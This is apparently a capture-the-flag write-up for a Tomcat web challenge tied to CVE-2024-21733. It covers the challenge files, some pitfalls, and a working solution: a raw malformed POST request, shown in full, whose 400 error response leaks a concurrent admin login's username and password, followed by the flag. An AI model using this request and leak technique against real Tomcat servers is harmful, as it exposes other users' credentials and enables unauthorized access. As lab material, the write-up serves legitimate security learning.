 # TASK INFO
Task Author: LOLASL

Writeup author: Raresh1t (SIFI)

Potentially Exploited CVE:

CVE-2024-21733

PoC on: https://hackerone.com/reports/2327341

**Task text:** 

*Hey carnal, sometimes you gotta slide in a little extra something for the homies. Theres a placa looking every minute so keep it tight, ese.*

The task theme is based on the movie "Blood In Blood Out" released in 1993, focusing on the Vatos Locos gang in Los Angeles in 1970s California.

# File analysis
**Attached file:**
A gzip archive is attached with the task. (bloodinbloodout.tar.gz)
Unzipping this archive extracts a folder named "source" which contains 5 files and 1 other directory.

**Dockerfile:** Contains the docker instancing instructions. Exposes port 8443. Finishes by running run.sh

**run.sh:** Simple shell file which starts the Catalina container, then runs victim.sh.

**victim.sh:** A shell script which continually performs an admin login towards localhost:8443/welcome.jsp every minute. (*This script is referenced from the second task
sentence: "a placa looking every minute"*)
This file contains a variable COOKIES, which holds the string: "JSESSIONID=EFC6BC3B39449C34A07AAEED1E9BE69A"

The main part of the script is a function "simulate_admin_login()" containing an always-true while loop which performs a curl request to the specified endpoint, then sleeps for 60 seconds and then performs another, indefinitely.
The file we were given contains placeholders for association, username, and password which are likely key parts needed to obtain the flag.

**server.xml**: This is the main server configuration for the Tomcat server, and contains some defined instructions. The most important detail of this file is that a Connector to port 8443 is defined, along with a keystore file with the alias "tomcat" with the key to the keystore file defined as "yoyoma"
```
<Connector port="8443" protocol="HTTP/1.1"
           connectionTimeout="20000"
           scheme="https"
           secure="true"
           SSLEnabled="true"
           keyAlias="tomcat"
           keystoreFile="conf/ssl/selfsigned.jks"
           keystorePass="yoyoma"
           clientAuth="false" />
```
Another interesting piece is a Valve defined as a log collector which stores localhost access logs in the directory "logs" as the file "localhost_access_logs.txt".
```
        <Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```
**selfsigned.jks**: This is the java keystore file, which we know from the server.xml configuration is protected with the string "yoyoma". This key can be used to decrypt TLS-encrypted traffic for the Connector port 8443 as it was used to configure the Connector port in the server configuration.

**Directory ROOT:** This directory contains the two files which are present on the webpage: "index.jsp" and "welcome.jsp". Index is the front page with the login screen, and welcome is the JavaServer page which is called from index.jsp when a login action is POSTed.

**index.jsp**: Nothing special here. Just the login page containing the form which requires all 3 parameters, and calls on welcome.jsp for POST requests.

**welcome.jsp**: The page which handles POST requests. It stores the provided username and password parameters from the request as strings and does a simple if-statement with a logical AND operator to check if both values are equal to some hard-coded value. If they are, you get the flag. If not, you get "Hey Cinderella, go find yourself a fella!" which is a known quote from the movie the task is based on.
```
    String username = request.getParameter("username");
    String password = request.getParameter("password");

    if("placeholderuser".equals(username) && "placeholderpassword".equals(password)) {
        out.println("<h3>EPT{this_is_a_placeholder_flag}</h3>");
    } else {
        out.println("<h3>Hey Cinderella, go find yourself a fella!</h3>");
    }
    %>

```

With all this in mind we need to find out where we can get these correct values to login and get the flag.
# Web Analysis
This task is simply a web-exploit challenge, however there are a few pitfalls which are easy to get lost in.

The task is running on an ondemand service (a VM) which has an Apache Tomcat server running with a Catalina container. The server presents you with a simple login screen for "San Quentin". San Quentin is a state prison in California which matches the theme of the task.

The login page has 3 input parameters: one association, one username, and one password.
The association parameter is a dropdown menu with 4 options, which is a required parameter: Los Angeles Police Department, Black Guerilla Army (BGA), The Aryan Vanguard, and La Onda. These are all significant groups which are tied to the movie.
Username and password are simply text input fields, but as identified in the file analysis they are also required parameters.

# Pitfall 1
An attempted brute force is not recommended for this task. You could be lucky as the correct username and password are related to the movie, however it is not an intended solution. 
# Pitfall 2
The biggest pitfall in this task is the idea that you need to attack victim.sh. Port 8443 is not open externally. (Checked with an Nmap scan and attempted connections.)

You can not intercept or capture the traffic this script is generating as it is only sending traffic locally. This also removes the entire need for the keystore file. You could use it to decrypt traffic, but you can't intercept the traffic which you would need to decrypt.

(Atleast as far as I know.)

# Solution
This task was simply solved with a sensitive information leak through an error response when the server handles a request.
```
"POST /welcome.jsp HTTP/1.1
Host: 10.128.2.173
Cookie: JSESSIONID=D250017936541CC7182F4309877D54D4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://10.128.2.173
Referer: https://10.128.2.173/index.jsp
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: keep-alive

association=Black"&username"&username=ls&password=%26password"
```
**association=Black"&username"&username=ls&password=%26password**

The response from the server indicates a successful request, however the server has received an error and leaked an error which has occurred when attempting to process a bad request.
```
HTTP/1.1 200
Content-Type: text/html;charset=UTF-8
Content-Length: 1224
Date: Sat, 02 Nov 2024 17:24:59 GMT
Keep-Alive: timeout=20
Connection: keep-alive
<!DOCTYPE html> <html> <head> <meta charset="UTF-8"> <title>Welcome to San Quentin</title> <style> body { background: url('https://dannytrejo.com/wp-content/uploads/2016/06/blood-in-blood-out-danny-trejo-crew.jpg') no-repeat center center fixed; background-size: cover; color: #fff; font-family: 'Arial', sans-serif; height: 100vh; display: flex; justify-content: center; align-items: center; } .welcome-container { text-align: center; background: rgba(0, 0, 0, 0.7); padding: 30px; border-radius: 10px; width: 350px; box-shadow: 0 4px 10px rgba(0, 0, 0, 0.5); } .welcome-container h1 { font-size: 24px; color: #ff4500; text-transform: uppercase; letter-spacing: 2px; } .welcome-container img { width: 100px; margin-bottom: 20px; } </style> </head>
<body> <div class="welcome-container"> <h3>Hey Cinderella, go find yourself a fella!</h3> </div> </body>
HTTP/1.1 400
Content-Type: text/html;charset=utf-8
Content-Language: en
Transfer-Encoding: chunked
Date: Sat, 02 Nov 2024 17:24:59 GMT
Connection: close 2000
<!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head>
<body><h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in method name [ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato19690x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00"
```

Providing a malformed input causes the server to leak the hardcoded credentials in the request handling:
```
<h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b>
Invalid character found in method name
[ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato1969
```
**username=paco&amp;password=carnalvato1969**

Logging in with **username = paco** and **password = carnalvato1969** reveals the flag:

**EPT{vatos_locos_4_ever_ese!_<3}**
